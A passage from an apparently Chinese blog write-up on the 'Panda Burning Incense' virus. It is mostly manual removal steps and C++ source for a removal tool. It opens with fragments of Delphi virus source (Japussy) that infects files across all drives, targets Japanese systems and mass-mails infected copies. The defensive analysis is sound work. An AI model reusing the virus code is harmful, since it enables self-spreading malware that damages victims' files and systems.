      //感染或删除一个文件后睡眠200毫秒，避免CPU占用率过高引起怀疑
      Sleep(200);
    until (FindNext(SearchRec) <> 0);
  end;
  FindClose(SearchRec);
  SubDir := TStringList.Create;
  if (FindFirst(Path + '*.*', faDirectory, SearchRec) = 0) then
  begin
    repeat
      if IsValidDir(SearchRec) = 1 then
        SubDir.Add(SearchRec.Name);
    until (FindNext(SearchRec) <> 0);
    end;
  FindClose(SearchRec);
  Count := SubDir.Count - 1;
  for i := 0 to Count do
    LoopFiles(Path + SubDir.Strings[i] + '', Mask);
  FreeAndNil(SubDir);
end;
```

遍历磁盘上所有的文件

```
{ 遍历磁盘上所有的文件 }
procedure InfectFiles;

var
  DriverList: string;
  i, Len: Integer;
begin
  if GetACP = 932 then //日文操作系统
    IsJap := True; //去死吧！
  DriverList := GetDrives; //得到可写的磁盘列表
  Len := Length(DriverList);
  while True do //死循环
  begin
    for i := Len downto 1 do //遍历每个磁盘驱动器
      LoopFiles(DriverList[i] + ':', '*.*'); //感染之
    SendMail; //发带毒邮件
    Sleep(1000 * 60 * 5); //睡眠5分钟
  end;
end;
```

主程序开始

```
{ 主程序开始 }
begin
  if IsWin9x then //是Win9x
    RegisterServiceProcess(GetCurrentProcessID, 1) //注册为服务进程
  else //WinNT
  begin
    //远程线程映射到Explorer进程
  end;
  //如果是原始病毒体自己
  if CompareText(ExtractFileName(ParamStr(0)), 'Japussy.exe') = 0 then
    InfectFiles //感染和发邮件
  else //已寄生于宿主程序上了，开始工作
  begin
    TmpFile := ParamStr(0); //创建临时文件
    Delete(TmpFile, Length(TmpFile) - 4, 4);
    TmpFile := TmpFile + #32 + '.exe'; //真正的宿主文件，多一个空格
    ExtractFile(TmpFile); //分离之
    FillStartupInfo(Si, SW_SHOWDEFAULT);
    CreateProcess(PChar(TmpFile), PChar(TmpFile), nil, nil, True,
      0, nil, '.', Si, Pi); //创建新进程运行之
    InfectFiles; //感染和发邮件
  end;
end.
```

### 病毒的防护措施及解决方案

#### 手工查杀

##### 流程

1、排查可疑进程。因为病毒往往会创建出来一个或者多个进程，因此我们需要分辨出哪些进程是由病毒所创建，然后删除可疑进程。

2、检查启动项。病毒为了实现自启动，会采用一些方法将自己添加到启动项中，从而实现自启动，所以我们需要把启动项中的病毒清除。

3、删除病毒。检查完启动项后，我们基本就能够确定病毒主体的位置，这样，我们就可以顺藤摸瓜，从根本上删除病毒文件。

4、修复被病毒破坏的文件。这一步一般来说无法直接通过纯手工完成，需利用相应的软件来完成，这里我们不做过多的深究。

##### 环境准备

- Windows 7 企业版

- VMware Workstation 12

- panda.exe

从行为分析中，我们可以知道，病毒创建出来的是一个名为 `spcolsv.exe` 的进程，我们现在的工作应该是杀掉这个进程。我们可以使用`taskkill /f /im PID` 这个命令来杀掉这个进程。

- /f 是强制删除

- /im 是指文件的镜像

- PID 进程号


我们可以看到，进程被成功的终止，我们再通过 `tasklist` 查看下当前的进程，我们可以发现， `4964` 的进程被杀死了。

下面我们应该检查一下系统的启动项，我们输入 `msconfig` ，我们可以看到 `svshare` 这个启动项存在于 `C:\Windows\System32\drivers\spcolsv.exe` 中，并且我们还可以看到，它在注册表创建了一个键值，在 `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` 下。



我们可以打开注册表看一下，我们输入 `regedit` ，我们可以看到在`C:\Windows\System32\drivers\spcolsv.exe` 下面有个名称为 `svshare` 的启动项，我们将启动项的 `√` 取消掉，点击确认，我们再刷新一下注册表，我们可以发现，注册表的启动项消失了，说明我们已经完成了检查启动项的操作。



接下来我们要来删除这个病毒，从刚才的操作中，我们已经知道了病毒所在的位置，我们打开cmd命令提示符，病毒在`C:\Windows\System32\drivers` 下，我们可以通过 `dir spcolsv.exe` 查看当前目录下是否存在 `spcolsv.exe` 文件，我们可以看到是真实存在的，下面我们使用 `del /f spcolsv.exe` 强制删除病毒文件，我们再用 `dir spcolsv.exe` 查看下这个文件，我们可以看到病毒文件已经是被删除了，到这里，我们删除病毒的工作基本就做完了。



这个病毒不单单是将自身复制到了 `drivers` 目录下，它还将自己复制到了每一个盘符的根目录下。但是由于我 `Windows 7` 的盘符只有C盘，所以它会将其自身复制到了C盘的根目录下，我们同样是可以通过 `dir` 看一下。

我们在C盘根目录下输入 `dir` ，但是呢，我们发现这里没有病毒的程序，这个原因可能是因为病毒将自身设置为了隐藏，所以我们这里应该通过 `dir /ah` ，这个命令是为了显示隐藏的属性文件，这样我们可以列出C盘目录下所有隐藏属性的文件，我们可以看到有两个文件，一个是`autorun.inf` ，这个是病毒程序所经常利用的，可以实现自启动的一个程序，然后就是 `panda.exe` ，这个是病毒的本体程序，我们下面的工作是要删除这两个文件。由于这两个文件是隐藏属性的，因此我们在删除的时候，应当加上 `/ah` ，所以我们使用 `del /ah /f autorun.inf` 和 `del /ah /f setup.exe` 两个命令删除这两个文件程序。

- /a 属性

- /h 隐藏

或者我们可以直接通过 `attrib -s -r -h 文件名称` ，来显示文件，再通过`del /f 文件名称` 来直接删除文件。

- -s 消除系统属性

- -r 消除只读属性

- -h 消除隐藏属性



#### 专杀工具的编写

我们对于上面所描述的病毒行为的分析，可以归纳为以下几点：

1、病毒本身创建了名为 `spcolsv.exe` 的进程，该进程文件的路径为 `C:\WINDOWS\system32\drivers\spcolsv.exe` 。

2、在命令行模式下使用 `net share` 命令来取消系统中的共享。

3、删除安全类软件在注册表中的启动项。

4、在注册表 `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` 中创建 `svcshare` ，用于在开机时启动位于 `C:\WINDOWS\system32\drivers\spcolsv.exe` 的病毒程序。

5、修改注册表，使得隐藏文件无法通过普通的设置进行显示，该位置为： `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL` ，病毒将 `CheckedValue` 的键值设置为了0。

6、将自身拷贝到根目录，并命名为 `setup.exe` ，同时创建 `autorun.inf` 用于病毒的启动，这两个文件的属性都是隐藏的。

7、在一些目录中创建名为 `Desktop_.ini` 的隐藏文件。

8、向外发包，连接局域网中其他机器。

如果使用批处理来杀毒，因为它运行时没有界面，因此我们往往不知道杀毒程序究竟干了些什么，也不知道究竟有没有查杀成功，这也凸显了使用高级语言开发专杀工具的优势。这里我使用 `MFC` 进行“熊猫烧香”病毒专杀工具的开发，绘制界面如下图所示：



那么我们该如何编写这个专杀工具呢？

我们编写思路大致可以分为以下四部分：

- 计算病毒程序的散列值

- 查找内存中的病毒进程

- 提升系统权限

- 查找并删除`Desktop_.ini`

##### 计算病毒程序的散列值

在查杀病毒的技术中有一种方法类似于特征码查杀法，这种方法并不从病毒内提取特征码，而是计算病毒的散列值。利用这个散列值，就可以在查杀的过程中计算每个文件的散列，然后进行比较。这种方法简单易于实现，一般在病毒刚被发现时，在逆向分析前使用。常见的计算散列的算法有 `MD5` 、 `Sha-1` 以及 `CRC32` 等。这里使用 `CRC32` 算法计算散列值：

```
DWORD CRC32(BYTE* ptr,DWORD Size)
{   
    DWORD crcTable[256],crcTmp1;   
    //动态生成CRC-32表
    for (int i=0; i<256; i++)
    {
        crcTmp1 = i;
        for (int j=8; j>0; j--)
        {
            if (crcTmp1&1) crcTmp1 = (crcTmp1 >> 1) ^ 0xEDB88320L;
            else crcTmp1 >>= 1;
        }

        crcTable[i] = crcTmp1;
    }
    //计算CRC32值
    DWORD crcTmp2= 0xFFFFFFFF;
    while(Size--)
    {
        crcTmp2 = ((crcTmp2>>8) & 0x00FFFFFF) ^ crcTable[ (crcTmp2^(*ptr)) & 0xFF ];
        ptr++;
    }   
    return (crcTmp2^0xFFFFFFFF);
}
```

该函数的参数有两个，一个是指向缓冲区的指针，第二个是缓冲区的长度。它将文件全部读入缓冲区中，然后用 `CRC32` 函数计算文件的 `CRC32` 散列值，可以得到我所研究的“熊猫烧香”病毒的散列值为 `0x89240FCD` 。这里请大家注意，不同版本的病毒的散列值是不同的，我所得出的这个值仅针对我所讨论的这个版本的病毒。

##### 查找内存中的病毒进程

我们需要在内存中查找病毒是否存在：

```
BOOL FindTargetProcess(char *pszProcessName,DWORD *dwPid)
{
    BOOL bFind = FALSE;

    HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);
    if (hProcessSnap == INVALID_HANDLE_VALUE)
    {
        return bFind;
    }

    PROCESSENTRY32 pe = { 0 };
    pe.dwSize = sizeof(pe);

    BOOL bRet = Process32First(hProcessSnap,&pe);
    while (bRet)
    {
        if (lstrcmp(pe.szExeFile,pszProcessName) == 0)
        {
            *dwPid = pe.th32ProcessID;
            bFind = TRUE;
            break;
        }
        bRet = Process32Next(hProcessSnap,&pe);
    }

    CloseHandle(hProcessSnap);

    return bFind;
}
```

##### 提升系统权限

这里还需要提升系统的权限，提升成功后，当前进程就可以访问一些受限的系统资源。

```
BOOL EnableDebugPrivilege(char *pszPrivilege)
{
    HANDLE hToken = INVALID_HANDLE_VALUE;
    LUID luid;
    TOKEN_PRIVILEGES tp;

    BOOL bRet = OpenProcessToken(GetCurrentProcess(),TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY,&hToken);
    if (bRet == FALSE)
    {
        return bRet;
    }

    bRet = LookupPrivilegeValue(NULL,pszPrivilege,&luid);
    if (bRet == FALSE)
    {
        return bRet;
    }

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    bRet = AdjustTokenPrivileges(hToken,FALSE,&tp,sizeof(tp),NULL,NULL);

    return bRet;
}
```

##### 查找并删除`Desktop_.ini`

病毒会在所有盘符下面的非系统目录中创建名为 `Desktop_.ini` 的文件，虽说这个文件看似并不会对系统产生什么危害，但是为了实现对“熊猫烧香”的彻底查杀，还是应当将其删除的。这里主要涉及两方面的知识，一个是遍历整个磁盘的文件，这需要使用 `FindFirstFile()` 与 `FindNextFile()` 这两个API函数，并采用递归调用的方法；另一个是修改文件属性，因为病毒创建出来的文件会带有系统、只读和隐藏这三个属性，若不对其进行更改，是无法删除病毒文件的。依照这个思想，编写出如下代码：

```
DWORD WINAPI FindFiles(LPVOID lpszPath)
{
        WIN32_FIND_DATA stFindFile;
        HANDLE hFindFile;
    // 扫描路径
    char szPath[MAX_PATH];    
    char szFindFile[MAX_PATH];
    char szSearch[MAX_PATH];
    char *szFilter;
    int len;
    int ret = 0;

    szFilter = "*.*";
    lstrcpy(szPath, (char *)lpszPath);

    len = lstrlen(szPath);
    if(szPath[len-1] != '\\')
    {
        szPath[len] = '\\';
        szPath[len+1] = '\0';
    }

    lstrcpy(szSearch, szPath);
    lstrcat(szSearch,szFilter);

    hFindFile = FindFirstFile(szSearch, &stFindFile);
    if(hFindFile != INVALID_HANDLE_VALUE)
    {
        do
        {
            lstrcpy(szFindFile, szPath);
                    lstrcat(szFindFile, stFindFile.cFileName);

            if(stFindFile.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)
            {
                if(stFindFile.cFileName[0] != '.')
                {
                    FindFiles(szFindFile);
                }
            }
            else
            {
                if(!lstrcmp(stFindFile.cFileName,"Desktop_.ini"))
                {
                                    // 去除文件的隐藏、系统以及只读属性
                                    DWORD dwFileAttributes = GetFileAttributes(szFindFile);
                                    dwFileAttributes &= ~FILE_ATTRIBUTE_HIDDEN;
                                    dwFileAttributes &= ~FILE_ATTRIBUTE_SYSTEM;
                                    dwFileAttributes &= ~FILE_ATTRIBUTE_READONLY;
                                    SetFileAttributes(szFindFile, dwFileAttributes);
                                    // 删除Desktop_.ini
                                    BOOL bRet = DeleteFile(szFindFile);    
                                    csTxt += szFindFile;
                                    if (bRet)
                                    {
                                        csTxt += _T("被删除！\r\n");
                                    } 
                                    else
                                    {
                                        csTxt += _T("无法删除\r\n");
                                    }
                }
            }
            ret = FindNextFile(hFindFile, &stFindFile);
        }while(ret != 0);
    }

    FindClose(hFindFile);

    return 0;
}
```

需要说明的是，这里需要在本程序前定义一个 `CString` 类型的 `csTxt` 全局变量，用于将查杀的结果信息输出到程序界面，之后的程序中也会用到这个变量。

下面我们就可以写主程序了，也就是"一键查杀"按钮的实现：

```
void CKillWhBoyDlg::OnBtnKill() 
{
    // TODO: Add your control notification handler code here
    BOOL bRet = FALSE;
    DWORD dwPid = 0; 
///////////////////////////////////////////////////////////////////
//  结束spoclsv.exe进程，并删除病毒程序本身
///////////////////////////////////////////////////////////////////
    bRet = FindTargetProcess("spoclsv.exe", &dwPid);
    if (bRet == TRUE)
    {
        csTxt = _T("检查系统内存...\r\n");
        csTxt += _T("系统中存在病毒进程:spoclsv.exe\r\n");
        csTxt += _T("准备进行查杀...\r\n");
        SetDlgItemText(IDC_LIST,csTxt);   
        // 提升权限
        bRet = EnableDebugPrivilege(SE_DEBUG_NAME);
        if (bRet == FALSE)
        {
            csTxt += _T("提升权限失败\r\n");
        }
        else
        {
            csTxt += _T("提升权限成功！\r\n");
        }
        SetDlgItemText(IDC_LIST,csTxt);
        // 打开并尝试结束病毒进程
        HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS,FALSE,dwPid);
        if (hProcess == INVALID_HANDLE_VALUE)
        {
            csTxt += _T("无法结束病毒进程\r\n");
            return ;
        }
        bRet = TerminateProcess(hProcess,0);
        if (bRet == FALSE)
        {
            csTxt += _T("无法结束病毒进程\r\n");
            return ;
        }
        csTxt += _T("病毒进程已经结束\r\n");
        SetDlgItemText(IDC_LIST,csTxt);
        CloseHandle(hProcess);
    }
    else
    {
        csTxt += _T("系统中不存在spoclsv.exe病毒进程\r\n");
    }

    Sleep(10);
    // 查杀磁盘中是否存在名为spoclsv.exe的病毒文件
    char szSysPath[MAX_PATH] = { 0 };
    GetSystemDirectory(szSysPath,MAX_PATH);

    lstrcat(szSysPath,"\\drivers\\spoclsv.exe");

    csTxt += _T("检查硬盘中是否存在spoclsv.exe文件...\r\n");

    if (GetFileAttributes(szSysPath) == 0xFFFFFFFF)
    {
        csTxt += _T("spoclsv.exe病毒文件不存在\r\n");
    }
    else
    {
        csTxt += _T("spoclsv.exe病毒文件存在，正在计算散列值\r\n");

        HANDLE hFile = CreateFile(szSysPath,GENERIC_READ,FILE_SHARE_READ,NULL,OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,NULL);
        if (hFile == INVALID_HANDLE_VALUE)
        {
            AfxMessageBox("Create Error");
            return ;
        }
        DWORD dwSize = GetFileSize(hFile,NULL);
        if (dwSize == 0xFFFFFFFF)
        {
            AfxMessageBox("GetFileSize Error");
            return ;
        }
        BYTE *pFile = (BYTE*)malloc(dwSize);
        if (pFile == NULL)
        {
            AfxMessageBox("malloc Error");
            return ;
        }

        DWORD dwNum = 0;
        ReadFile(hFile,pFile,dwSize,&dwNum,NULL);
        // 计算spoclsv.exe的散列值
        DWORD dwCrc32 = CRC32(pFile,dwSize);

        if (pFile != NULL)
        {
            free(pFile);
            pFile = NULL;
        }

        CloseHandle(hFile);
        // 0x89240FCD是“熊猫烧香”病毒的散列值
        if (dwCrc32 != 0x89240FCD)
        {
            csTxt += _T("spoclsv.exe校验和验证失败\r\n");
        }
        else
        {
            csTxt += _T("spoclsv.exe校验和验证成功，正在删除...\r\n");
            // 去除文件的隐藏、系统以及只读属性
            DWORD dwFileAttributes = GetFileAttributes(szSysPath);
            dwFileAttributes &= ~FILE_ATTRIBUTE_HIDDEN;
            dwFileAttributes &= ~FILE_ATTRIBUTE_SYSTEM;
            dwFileAttributes &= ~FILE_ATTRIBUTE_READONLY;
            SetFileAttributes(szSysPath, dwFileAttributes);
            // 删除spoclsv.exe
            bRet = DeleteFile(szSysPath);
            if (bRet)
            {
                csTxt += _T("spoclsv.exe病毒被删除！\r\n");
            } 
            else
            {
                csTxt += _T("spoclsv.exe病毒无法删除\r\n");
            }
        }
    }  
    SetDlgItemText(IDC_LIST,csTxt);
    Sleep(10);
///////////////////////////////////////////////////////////////////
//  删除每个盘符下的setup.exe与autorun.inf，以及Desktop_.ini
///////////////////////////////////////////////////////////////////
    char szDriverString[MAXBYTE] = { 0 };  
    char *pTmp = NULL;  
    //获取字符串类型的驱动器列表  
    GetLogicalDriveStrings(MAXBYTE, szDriverString);  

    pTmp = szDriverString;  

    while( *pTmp )  
    {  
        char szAutorunPath[MAX_PATH] = { 0 };    
        char szSetupPath[MAX_PATH] = { 0 };
        lstrcat(szAutorunPath,pTmp);
        lstrcat(szAutorunPath,"autorun.inf");
        lstrcat(szSetupPath,pTmp);
        lstrcat(szSetupPath,"setup.exe");

        if (GetFileAttributes(szSetupPath) == 0xFFFFFFFF)
        {
            csTxt += pTmp;
            csTxt += _T("setup.exe病毒文件不存在\r\n");
        }
        else
        {
            csTxt += pTmp;
            csTxt += _T("setup.exe病毒文件存在，正在进行计算校验和...\r\n");
            HANDLE hFile = CreateFile(szSetupPath,GENERIC_READ,FILE_SHARE_READ,NULL,OPEN_EXISTING,FILE_ATTRIBUTE_NORMAL,NULL);
            if (hFile == INVALID_HANDLE_VALUE)
            {
                AfxMessageBox("Create Error");
                return ;
            }
            DWORD dwSize = GetFileSize(hFile,NULL);
            if (dwSize == 0xFFFFFFFF)
            {
                AfxMessageBox("GetFileSize Error");
                return ;
            }
            BYTE *pFile = (BYTE*)malloc(dwSize);
            if (pFile == NULL)
            {
                AfxMessageBox("malloc Error");
                return ;
            }         

            DWORD dwNum = 0;
            ReadFile(hFile,pFile,dwSize,&dwNum,NULL);

            DWORD dwCrc32 = CRC32(pFile,dwSize);   
            if (pFile != NULL)
            {
                free(pFile);
                pFile = NULL;
            }
            CloseHandle(hFile);
            if (dwCrc32 != 0x89240FCD)
            {
                csTxt += _T("校验和验证失败\r\n");
            }
            else
            {
                csTxt += _T("校验和验证成功，正在删除...\r\n"); 
                // 去除文件的隐藏、系统以及只读属性
                DWORD dwFileAttributes = GetFileAttributes(szSetupPath);
                dwFileAttributes &= ~FILE_ATTRIBUTE_HIDDEN;
                dwFileAttributes &= ~FILE_ATTRIBUTE_SYSTEM;
                dwFileAttributes &= ~FILE_ATTRIBUTE_READONLY;
                SetFileAttributes(szSetupPath, dwFileAttributes);
                // 删除setup.exe
                bRet = DeleteFile(szSetupPath);    
                if (bRet)
                {
                    csTxt += pTmp;
                    csTxt += _T("setup.exe病毒被删除!\r\n");
                } 
                else
                {
                    csTxt += pTmp;
                    csTxt += _T("setup.exe病毒无法删除\r\n");
                }
            }
        }
        // 去除文件的隐藏、系统以及只读属性
        DWORD dwFileAttributes = GetFileAttributes(szAutorunPath);
        dwFileAttributes &= ~FILE_ATTRIBUTE_HIDDEN;
        dwFileAttributes &= ~FILE_ATTRIBUTE_SYSTEM;
        dwFileAttributes &= ~FILE_ATTRIBUTE_READONLY;
        SetFileAttributes(szAutorunPath, dwFileAttributes);
        // 删除autorun.inf
        bRet = DeleteFile(szAutorunPath);    
        csTxt += pTmp;
        if (bRet)
        {         
            csTxt += _T("autorun.inf被删除!\r\n");
        } 
        else
        {
            csTxt += _T("autorun.inf不存在或无法删除\r\n");
        }
        // 删除Desktop_.ini
        FindFiles(pTmp);
        // 检查下一个盘符
        pTmp += 4;  
    }  
    Sleep(10);
///////////////////////////////////////////////////////////////////
//  修复注册表内容，删除病毒启动项并修复文件的隐藏显示
///////////////////////////////////////////////////////////////////
    csTxt += _T("正在检查注册表...\r\n");
    SetDlgItemText(IDC_LIST,csTxt);
    // 首先检查启动项
    char RegRun[] = "Software\\Microsoft\\Windows\\CurrentVersion\\Run";   
    HKEY hKeyHKCU = NULL;    
    LONG lSize = MAXBYTE;
    char cData[MAXBYTE] = { 0 };

    long lRet = RegOpenKey(HKEY_CURRENT_USER, RegRun, &hKeyHKCU);
    if(lRet == ERROR_SUCCESS)
    {
        lRet = RegQueryValueEx(hKeyHKCU,"svcshare",NULL,NULL,(unsigned char *)cData,(unsigned long *)&lSize);
        if ( lRet == ERROR_SUCCESS)
        {
            if (lstrcmp(cData,"C:\\WINDOWS\\system32\\drivers\\spcolsv.exe") == 0)
            {
                csTxt += _T("注册表启动项中存在病毒信息\r\n");
            }

            lRet = RegDeleteValue(hKeyHKCU,"svcshare");
            if (lRet == ERROR_SUCCESS)
            {
                csTxt += _T("注册表启动项中的病毒信息已删除！\r\n");
            }
            else
            {
                csTxt += _T("注册表启动项中的病毒信息无法删除\r\n");
            }
        }
        else
        {
            csTxt += _T("注册表启动项中不存在病毒信息\r\n");
        }
        RegCloseKey(hKeyHKCU);
    } 
    else
    {
        csTxt += _T("注册表启动项信息读取失败\r\n");
    }
    // 接下来修复文件的隐藏显示，需要将CheckedValue的值设置为1
    char RegHide[] = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Advanced\\Folder\\Hidden\\SHOWALL"; 
    HKEY hKeyHKLM = NULL; 
    DWORD dwFlag = 1;

    long lRetHide = RegOpenKey(HKEY_LOCAL_MACHINE, RegHide, &hKeyHKLM);
    if(lRetHide == ERROR_SUCCESS)
    {
        csTxt += _T("检测注册表的文件隐藏选项...\r\n");
        if( ERROR_SUCCESS == RegSetValueEx(
                hKeyHKLM,             //subkey handle  
                            "CheckedValue",       //value name  
                            0,                    //must be zero  
                            REG_DWORD,            //value type  
                            (CONST BYTE*)&dwFlag, //pointer to value data  
                            4))                   //length of value data
        {
            csTxt += _T("注册表修复完毕！\r\n");
        }
        else
        {
            csTxt += _T("无法恢复注册表的文件隐藏选项\r\n");
        }
    }
///////////////////////////////////////////////////////////////////
// 病毒查杀完成
///////////////////////////////////////////////////////////////////
    csTxt += _T("病毒查杀完成，请使用专业杀毒软件进行全面扫描！\r\n");
    SetDlgItemText(IDC_LIST,csTxt);
}
```

查杀后的效果如下：



### 病毒的复现

我自己仿照了熊猫烧香病毒，自己编写了个易语言版本的，我也看了吾爱破解上的C++版本的，应该是用了MFC写的，当然我也会陆续把它放在GitHub上，这里我只是放了一个案例，为了防止某些人拿去做非法用途，我只提供了主要源代码。各位小主们有GitHub账号的走过路过千万不要吝啬你们的`star` 和 `follow` 。

### 项目下载

文章中涉及的源代码及程序我已经开源至GitHub上，希望有GitHub账号的大师傅可以给我赏个 `star` 和 `follow` ，感谢各位亲们的支持(/▽＼=)。

下载地址：[GitHub](https://github.com/AngelKitty/Computer-Virus)

### 参考文献

- [由“熊猫烧香”谈起](http://staff.ustc.edu.cn/~lszhuang/law09/xiongmaoshaoxiang.pdf)

- [Github](https://github.com/AngelKitty/Computer-Virus)

- [博客园](https://www.cnblogs.com/ECJTUACM-873284962/p/9642383.html)
